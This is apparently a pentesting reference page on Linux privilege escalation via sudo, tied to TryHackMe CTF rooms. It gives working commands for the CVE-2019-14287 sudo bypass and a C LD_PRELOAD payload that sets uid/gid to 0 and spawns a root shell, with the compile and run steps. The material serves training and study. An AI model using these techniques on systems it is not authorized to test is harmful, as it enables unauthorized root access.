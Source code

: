 # sudo

[Go back](../index.md#linux-privilege-escalation-)

An excellent reference to exploit sudo: [SUDO_KILLER](https://github.com/TH3xACE/SUDO_KILLER) (1.9k ⭐).

<hr class="sep-both">

## Administrative privileges

[![picklerick](../../../_badges/thm-p/picklerick.svg)](https://tryhackme.com/room/picklerick)
[![linprivesc](../../../_badges/thm-p/linprivesc.svg)](https://tryhackme.com/room/linprivesc#task-12)
[![wgelctf](../../../_badges/thm-p/wgelctf.svg)](https://tryhackme.com/room/wgelctf)

<div class="row row-cols-md-2"><div>

If you have [administrative privileges](/operating-systems/linux/knowledge/index.md#sudo), you can list them with:

```ps
$ sudo -nl # without a password
$ sudo -l # with a password
```

The first section is about settings and environment variables that may be exploited such as [LD_PRELOAD](#ldpreload).

```text!
Matching Defaults entries for [...]:
    [...] # something here
```
</div><div>

The second section is about your sudoers rights. Such commands may be exploited to get root, search the command on [GTOBins #sudo]().

```text!
User [...] may run the following commands on [...]:
    (root) /bin/tar
```

➡️ For instance, the user below can run `/bin/tar` as `root`.
</div></div>

<hr class="sep-both">

## sudo before 1.8.28 (CVE-2019-14287)

[![agentsudoctf](../../../_badges/thm-p/agentsudoctf.svg)](https://tryhackme.com/room/agentsudoctf)

<div class="row row-cols-md-2"><div>

If a user was allowed to run one specific command using sudo, such as `tar`, then it was possible for any other user to impersonate the authorized user, and run the command as root too.

```ps
$ sudo -u#-1 tar [...]
$ sudo -u#4294967295 tar [...]
```

💎 Congratulations, you are `root` now!
</div><div>
</div></div>


<hr class="sep-both">

## LD_PRELOAD

<div class="row row-cols-md-2"><div>

If there is `env_keep += LD_PRELOAD` in the permissions displayed by `sudo -l`, then it means that the user can run some code before executing a command as administrator.

The code below replace the gid/uid of the user running the command with `0` <small>(root)</small>. Then, it pops a bash shell <small>(as root!)</small>.

```c
void _init() {
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
</div><div>

Compile it with

```
$ cd /tmp
$ gcc -shared -fPIC init.c -o init.so
```

Then, call the command that you could run as administrator <small>(`tar` here)</small>, while setting the variable path to your script:

```bash!
$ sudo LD_PRELOAD=/tmp/init.so tar
```

💎 Congratulations, you are `root` now!
</div></div>
